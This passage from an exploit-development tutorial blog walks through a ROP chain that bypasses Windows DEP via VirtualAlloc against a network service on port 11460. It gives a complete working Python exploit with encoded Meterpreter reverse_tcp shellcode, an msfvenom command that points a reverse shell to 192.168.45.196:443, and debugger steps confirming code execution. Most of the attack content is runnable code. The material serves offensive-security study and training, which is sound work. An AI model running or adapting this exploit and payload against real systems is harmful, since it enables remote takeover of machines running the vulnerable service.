*Figure 10.30 — `flAllocationType = 0x00001000`. `MEM_COMMIT`.*

### 10.9 Phase 3f — Slot[5] = flProtect = 0x40 (PAGE_EXECUTE_READWRITE)

`0x40` is small — three null bytes. Same NEG trick: `neg(0xFFFFFFC0) = 0x40`.

```python
rop += pack("<L", (0x50522fa7)) # inc esi × 4  (advance to slot[5])
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0xffffffc0)) # -0x40
rop += pack("<L", (0x50527840)) # neg eax ; ret           → EAX = 0x40
rop += pack("<L", (0x5051cbb6)) # mov [esi], eax ; ret
```


Run:

```text
g
```

![Slot[5] = 0x00000040](../images/dep-124.png)

*Figure 10.31 — `flProtect = 0x40` = `PAGE_EXECUTE_READWRITE`. All six slots
of the skeleton are now correctly populated.*

Confirm all six at once:

```text
dds esi - 14 L6
```


*Figure 10.32 — Six slots, six correct values. `VirtualAlloc`, our shellcode
`RET`, `lpAddress = shellcode`, `dwSize = 1`, `flAllocationType = 0x1000`,
`flProtect = 0x40`. This is a complete, ready-to-invoke stack frame for
`VirtualAlloc`.*

### 10.10 Phase 4 — Stack pivot to the skeleton

We have the frame. Nothing in the world will execute it unless `ESP` points
at the top of that frame when the next `RET` fires.

Our current `ESI` is at slot[5]. Top of the skeleton (slot[0]) is at `ESI −
0x18`. Set `EAX = ESI − 0x18`, dump it into `EBP`, then `MOV ESP, EBP; POP
EBP; RET`. The `RET` will now pop slot[0] as the next `EIP`.

```python
rop  = pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe8)) # -0x18
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret          → EAX = ESI - 0x18
rop += pack("<L", (0x5051571f)) # xchg eax, ebp ; ret         → EBP = ESI - 0x18
rop += pack("<L", (0x50533cbf)) # mov esp, ebp ; pop ebp ; ret → ESP = &slot[0]
```




*Figure 10.33 — Before the pivot, `ESP` is threading through the ROP
gadgets. After the pivot, `ESP` sits on top of the skeleton — so the next
`RET` transfers control into `VirtualAlloc` with the four arguments
correctly laid out in STDCALL order below it.*

Set a breakpoint on `VirtualAlloc` itself to observe the API entry:

```text
bp KERNEL32!VirtualAllocStub
```


Before we let it run, check the page protection at the current shellcode
address:

```text
!vprot 0d27e514
```


*Figure 10.34 — The stack page holding our future shellcode is
`PAGE_READWRITE`. DEP is on. Executing anything here would crash.*

Continue past the `VirtualAlloc` call and re-check:

```text
!vprot 0d27e514
```


*Figure 10.35 — After the call the page is `PAGE_EXECUTE_READWRITE`. The
NX bit is cleared. DEP has been bypassed on this page.*



*Figure 10.36 — Visual summary. Same address, same allocation, same
`AllocationProt` — only the current `Protect` field of the PTE changed. The
whole ROP chain existed to cause that one field to flip.*

### 10.11 Phase 5 — Landing offset for the shellcode

`VirtualAlloc` returned successfully. Its `RET` popped our slot[1] as the
next `EIP`, and we land … somewhere near the shellcode, but not exactly at
the first byte:


*Figure 10.37 — We're inside the buffer but a few hundred bytes off from
where the shellcode begins.*

Look at the actual shellcode start relative to where we landed:

```text
dd esp + 100
```


Compute the delta:

```text
? 0d27e514 - (0d27e428  + 0x4)
```


*Figure 10.38 — The gap between where we landed and where the shellcode
starts is `0xE8` bytes. Pad the ROP with `0xE8` `C`s before the shellcode
and the RET-slid landing will hit `0xE8` bytes above shellcode — exactly at
its first byte.*

Bake that padding into the PoC:

```python
padding = b"C" * 0xe8
shellcode = b"\xcc" * (0x400 - 276 - 4 - len(rop) - len(padding))

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (
    offset+va+eip+rop+padding+shellcode,0,0,0,0)
buf += formatString
```


Run the exploit under the debugger, and continue past `VirtualAlloc`:

```text
pt
```


*Figure 10.39 — We hit an `INT3` at the exact first byte of the shellcode
region. No access violation on the way in. That means:*

- *the page is now RWX*
- *the RET-slid landing hit its target*
- *the stack pivot is correct*

*This is the whole ROP chain working end-to-end. We can now paste in real
shellcode.*

---

## 11. The Full Exploit

Replace the `\xcc` filler with a real Meterpreter reverse-tcp stager.
`msfvenom` with a bad-char list matching ours:

```text
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.45.196 LPORT=443 \
         EXITFUNC=thread \
         -f py -v shellcode \
         -b "\x00\x09\x0a\x0b\x0c\x0d\x20"
```


*Figure 11.1 — Encoded shellcode with our bad chars stripped out. 373 bytes.*

The final PoC embeds it verbatim after the ROP chain. The full script is
also our final answer — it is the exploit:

```python
import socket
import sys
from struct import pack

# psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x700)  # 1st memcpy: size field
buf += pack("<i", 0x0)    # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x0)    # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

# psCommandBuffer
va  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
va += pack("<L", (0x46464646)) # dummy Shellcode Return Address
va += pack("<L", (0x47474747)) # dummy Shellcode Address
va += pack("<L", (0x48484848)) # dummy dwSize
va += pack("<L", (0x49494949)) # dummy flAllocationType Address
va += pack("<L", (0x51515151)) # dummy flProtect Address

offset = b"A" * (276 - len(va))
eip  = pack("<L", (0x50501110)) # push esp ; push eax ; pop edi ; pop esi ; ret

# ---------------- Phase 1b: anchor ESI to skeleton[0] ----------------
rop  = pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe4)) # -0x1C
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret

# ---------------- Phase 2: resolve VirtualAlloc into slot[0] ----------
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0x5054A221)) # VirtualAlloc IAT + 1
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0xffffffff)) # -1 into ecx
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x5051f278)) # mov eax, dword [eax] ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret

# ---------------- Phase 3b: slot[1] = shellcode addr (via ESI+0x210) --
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0xfffffdf0)) # -0x210 into ecx
rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret

# ---------------- Phase 3c: slot[2] = lpAddress (same address, ESI+0x20C)
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242))
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0xfffffdf4)) # -0x20C into ecx
rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret

# ---------------- Phase 3d: slot[3] = dwSize = 1 (via neg -1)
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0xffffffff)) # -1
rop += pack("<L", (0x50527840)) # neg eax ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret

# ---------------- Phase 3e: slot[4] = MEM_COMMIT (via split add)
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0x80808080))
rop += pack("<L", (0x505115A3)) # pop ecx ; ret
rop += pack("<L", (0x7f7f8f80))
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret

# ---------------- Phase 3f: slot[5] = PAGE_EXECUTE_READWRITE (via neg)
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x50522fa7))
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0xffffffc0)) # -0x40
rop += pack("<L", (0x50527840)) # neg eax ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret

# ---------------- Phase 4: pivot ESP to slot[0]
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242))
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe8)) # -0x18
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x5051571f)) # xchg eax, ebp ; ret
rop += pack("<L", (0x50533cbf)) # mov esp, ebp ; pop ebp ; ret

# ---------------- Landing alignment + shellcode
padding = b"C" * 0xe8

shellcode  = b""
shellcode += b"\xba\xc2\xcb\x9b\x11\xd9\xe9\xd9\x74\x24\xf4"
shellcode += b"\x5e\x29\xc9\xb1\x5e\x31\x56\x15\x83\xee\xfc"
shellcode += b"\x03\x56\x11\xe2\x37\x37\x73\x9e\xb7\xc8\x84"
shellcode += b"\xc1\x3e\x2d\xb5\xd3\x24\x25\xe4\xe3\x2f\x6b"
shellcode += b"\x05\x8f\x7d\x98\x1a\x38\xcb\x86\x15\xb9\x40"
shellcode += b"\xb4\x7d\x74\x96\x95\x42\x17\x6a\xe4\x96\xf7"
shellcode += b"\x53\x27\xeb\xf6\x94\xf1\x81\x17\x48\x89\x38"
shellcode += b"\xf8\x3b\x06\xfe\xc4\xc2\xc8\x74\x74\xbc\x6d"
shellcode += b"\x4a\x01\x70\x6f\x9b\x61\xc0\x77\x4b\xfd\x88"
shellcode += b"\xa7\x6a\xd2\xad\x61\x18\xe8\x9c\x8e\xa8\x9b"
shellcode += b"\xea\xfb\x2a\x4a\x23\x3c\xed\xbd\x4e\x10\xef"
shellcode += b"\x86\x68\x88\x85\xfc\x8b\x35\x9e\xc6\xf6\xe1"
shellcode += b"\x2b\xd9\x50\x61\x8b\x3d\x61\xa6\x4a\xb5\x6d"
shellcode += b"\x03\x18\x91\x71\x92\xcd\xa9\x8d\x1f\xf0\x7d"
shellcode += b"\x04\x5b\xd7\x59\x4d\x3f\x76\xfb\x2b\xee\x87"
shellcode += b"\x1b\x93\x4f\x22\x57\x31\x99\x52\x98\xca\xa6"
shellcode += b"\x0e\x0f\x07\x6b\xb1\xcf\x0f\xfc\xc2\xfd\x90"
shellcode += b"\x56\x4d\x4e\x59\x71\x8a\xc7\x4d\x82\x44\x6f"
shellcode += b"\x1d\x7c\x65\x90\x34\xbb\x31\xc0\x2e\x6a\x3a"
shellcode += b"\x8b\xae\x93\xef\x26\xa4\x03\xd0\x1f\x95\x17"
shellcode += b"\xb8\x5d\xe5\x96\x82\xeb\x03\xc8\xa4\xbb\x9b"
shellcode += b"\xa9\x14\x7c\x4b\x42\x7f\x73\xb4\x72\x80\x59"
shellcode += b"\xdd\x19\x6f\x34\xb6\xb5\x16\x1d\x4c\x27\xd6"
shellcode += b"\x8b\x29\x67\x5c\x3e\xce\x26\x95\x4b\xdc\x5f"
shellcode += b"\xc2\xb3\x1c\xa0\x67\xb4\x76\xa4\x21\xe3\xee"
shellcode += b"\xa6\x14\xc3\xb1\x59\x73\x57\xb5\xa6\x02\x6e"
shellcode += b"\xce\x91\x90\xce\xb8\xdd\x74\xcf\x38\x88\x1e"
shellcode += b"\xcf\x50\x6c\x7b\x9c\x45\x73\x56\xb0\xd6\xe6"
shellcode += b"\x59\xe1\x8b\xa1\x31\x0f\xf2\x86\x9d\xf0\xd1"
shellcode += b"\x94\xda\x0f\xa4\xb2\x42\x78\x56\x83\x72\x78"
shellcode += b"\x3c\x03\x23\x10\xcb\x2c\xcc\xd0\x34\xe7\x85"
shellcode += b"\x78\xbf\x66\x67\x18\xc0\xa2\x29\x84\xc1\x41"
shellcode += b"\xf2\x37\xb8\x2a\x05\xb8\x3d\x23\x62\xb8\x3e"
shellcode += b"\x4b\x94\x84\xe9\x72\xe2\xcb\x2a\xc1\xed\xd1"
shellcode += b"\x86\x3c\x86\x4f\x43\xfd\xcb\x6f\xbe\xc2\xf5"
shellcode += b"\xf3\x4a\xbb\x01\xeb\x3f\xbe\x4e\xab\xac\xb2"
shellcode += b"\xdf\x5e\xd2\x61\xdf\x4a"

morepadding = b"\xcc" * (0x600 - 276 - 4 - len(rop) - len(padding) - len(shellcode))

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (
    offset+va+eip+rop+padding+shellcode+morepadding,0,0,0,0)
buf += formatString

buf = pack(">i", len(buf)-4) + buf

def main():
    if len(sys.argv) != 2:
        print("Usage: %s <ip_address>\n" % (sys.argv[0]))
        sys.exit(1)
    server = sys.argv[1]
    port = 11460
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buf)
    s.close()
    print("[+] Packet sent")
    sys.exit(0)

if __name__ == "__main__":
    main()
```


Fire it at the target with a Metasploit multi/handler waiting on
`192.168.45.196:443`:


*Figure 11.2 — The exploit runs end-to-end. `VirtualAlloc` fires with the
right arguments, the target's stack page is now RWX, the shellcode executes,
and Metasploit prints its `Meterpreter session 1 opened` banner. DEP is
bypassed.*

---

## 12. Full ROP-Chain Flow — A Recap Diagram

Every step we just walked, laid out in one picture, so the whole chain fits
in one mental frame:



*Figure 12.1 — Phase 1 anchors `ESI`. Phase 2 resolves `VirtualAlloc` from
the IAT and writes it into slot[0]. Phase 3 patches the four API arguments
using two little tricks (`NEG` and split-sum) to dodge bad bytes. Phase 4
sets the last argument and Phase 5 pivots `ESP` onto the top of the frame
so the next `RET` invokes `VirtualAlloc` cleanly. If you can hold this
picture in your head, you can write a chain like this against any
`VirtualAlloc`-flavored target.*

---

## 13. Debugging Notes and Common Pitfalls

Everything above worked in the end, but it very rarely works on the first
try. A short field guide of the things you will trip over:

- **The IAT slot has a bad byte.** Push `IAT + 1` (or `IAT + 2`, whichever
  works) and correct with a `SUB EAX, ECX` on the way in. You will do this
  more often than you expect.
- **`NEG EAX` is a two-edged tool.** It gives you `+N` when you had `-N`,
  but any small constant you want to synthesize this way has to be smaller
  than `0x7FFFFFFF` and the source of `-N` must not itself contain bad
  bytes.
- **Split-sum needs endianness care.** `0x80808080 + 0x7F7F8F80 = 0x1000`
  with 32-bit wraparound. If you forget the truncation you'll get a wrong
  answer at `EAX`.
- **`INC ESI; add al, 0x2B; ret` is dirty.** It clobbers the low byte of
  `EAX`. That's fine at slot-advance time (we're between register-live
  windows) but if you use a similar gadget right after a `MOV EAX, [EAX]`
  you'll silently smash your just-resolved API address.
- **The pivot's delta is not `−0x1C`, it's `−0x18`.** At pivot time `ESI`
  is at slot[5] (top slot is at offset `0`, slot[5] at offset `+0x14`,
  minus `+0x14` back to the top gives `-0x14`; add another `-4` because
  `MOV ESP, EBP; POP EBP; RET` consumes an extra slot for the `pop ebp`).
  Getting the pivot off by one dword is the single most common cause of a
  "close-but-crashing" exploit.
- **`ESP` alignment matters for API calls.** `VirtualAlloc` and friends do
  not require 16-byte alignment on x86, but if your pivot leaves `ESP`
  pointing one byte off from a dword boundary (e.g. because of a
  miscalculated arithmetic gadget) the API entry disassembly will look
  fine but internal `mov ecx, [ebp+8]`-style reads will be misaligned and
  behave strangely.
- **`bp KERNEL32!VirtualAllocStub` and not `bp KERNEL32!VirtualAlloc`.**
  The `Stub` is the actual thunk your process ends up calling; the plain
  symbol may or may not be resolved depending on kernel32 layout on your
  Windows build.
- **Bad-char sweeps must be repeated after moving modules.** A gadget in a
  different DLL will have addresses in different byte ranges. If you swap
  gadget provenance mid-chain (e.g. reach into `csftpav6.dll` for one
  gadget and `sqlite3.dll` for another) you can accidentally reintroduce a
  bad byte.

---

## 14. Comparing the Three DEP-Bypass Doors

You will meet all three staging APIs at some point in your career. Some
targets have a beautiful `csftpav6.dll`-style module with every gadget you
need for a `VirtualAlloc` chain; others force you into `VirtualProtect` or
`WriteProcessMemory`. The rough rules of thumb:

| API | Args | Best when… | Watch out for… |
| :--- | :--- | :--- | :--- |
| **VirtualAlloc** | 4 | Shellcode already sits in a committed page. | `flProtect = 0x40` and `flAllocationType = 0x1000` both have null bytes. |
| **VirtualProtect** | 5 | You want to change an existing page's protection without allocating. | Fifth arg is a *pointer* to writable memory for `lpflOldProtect` — needs a spare RW address. |
| **WriteProcessMemory** | 5 | You have a writable RWX region already (e.g. a JIT scratchpad) and want to copy shellcode into it. | First arg is `HANDLE`; you need `-1` (`GetCurrentProcess()` pseudo-handle) *without* null bytes. |

In every case the chain shape is the same: patch each argument slot, pivot,
`RET`. The only thing that varies is how many slots and what constant tricks
you need.

---

## 15. Cross-References to Earlier Posts

Two techniques from earlier posts on this blog are worth calling out because
they turn out to compose neatly with what we built here:

- The **[SEH overwrite](/posts/SEH-Exploit-Development/)** technique gives
  you initial `EIP` control even when stack cookies protect the return
  address. Once `EIP` is yours, a DEP bypass looks exactly like what we did
  in Sections 9–11 — the ROP chain doesn't care how you got `EIP`.
- **[Egghunters](/posts/Egghunter-Exploit-Development/)** solve the "too
  little room for shellcode" problem. If your crash buffer isn't big enough
  for a full ROP chain plus shellcode, the ROP chain can call
  `VirtualAlloc` on a *different*, larger region (found by an egghunter or
  a heap-spray primitive) and then jump into it. In that scenario, the
  chain from this post drops in verbatim — just point `lpAddress` at the
  egghunted region instead of at the same-page shellcode.

The three techniques form a natural progression: control `EIP` (SEH), find
enough space (egghunter), execute what you found (DEP bypass).

---

## 16. Conclusion

Data Execution Prevention was a genuine paradigm shift in Windows
exploitation: it did not close a single vulnerability, it closed an entire
technique. For a few months in 2004–2005 nobody knew how to write reliable
Windows shellcode exploits any more. Return-Oriented Programming is what
came out the other side. Its power is not that it "beats" DEP — that framing
is misleading — but that it makes DEP irrelevant. Under ROP, the stack is
never executed; only borrowed instructions in legitimate code pages ever
run. DEP correctly reports "no code executed from the stack", because none
did. And by the time DEP would have anything to complain about, our chain
has already called `VirtualAlloc` and unlocked the region we care about.

The chain we built together above is not glamorous. Fifteen gadgets to
resolve one function, patch four arguments, and pivot. Two arithmetic tricks
(`NEG` and split-sum) to dodge null bytes. A short dance to compute the
shellcode address from `ESI` because we could not directly write our own
runtime pointer. But every one of those steps is composable, transferable,
and reusable. Once you can write this chain, you can write it against
almost any Windows service you find with a stack overflow — the module
changes, the offsets change, but the shape does not.

A few closing thoughts before you close the tab:

- **Practice the gadget hunt.** `rp++` is fast but the real skill is reading
  a gadget list and knowing which sequences you can *chain*. A gadget that
  is beautiful in isolation but requires a register you don't control at
  that moment is worthless.
- **Keep bad-char lists on hand.** Every target has a different set. Build
  your ROP chain in a Python file where every constant is `pack("<L", ...)`
  so you can visually check byte ranges.
- **Test the chain incrementally.** Set a breakpoint on every gadget the
  first time you use it in a chain. Never string more than one new gadget
  together before verifying the chain still lands where you expect.
- **Prefer VirtualAlloc.** Four arguments beats five. Every gadget you
  don't have to find is a gadget that can't go wrong.

That's the whole picture — from the moment DEP kills your `JMP ESP` to the
moment `msf` prints `Meterpreter session 1 opened`. If you followed along
end-to-end, you have written a real DEP-bypass exploit against a real
service. The next post in this series will cover **ASLR bypass**, which is
where things get really fun — everything we relied on for stability
(`csftpav6.dll` at `0x50500000`, IAT at `0x5054A220`) is precisely what ASLR
is designed to break.

Until then — happy hunting, and keep it defensive.

*By [Remo](https://twitter.com/Rem01x)*
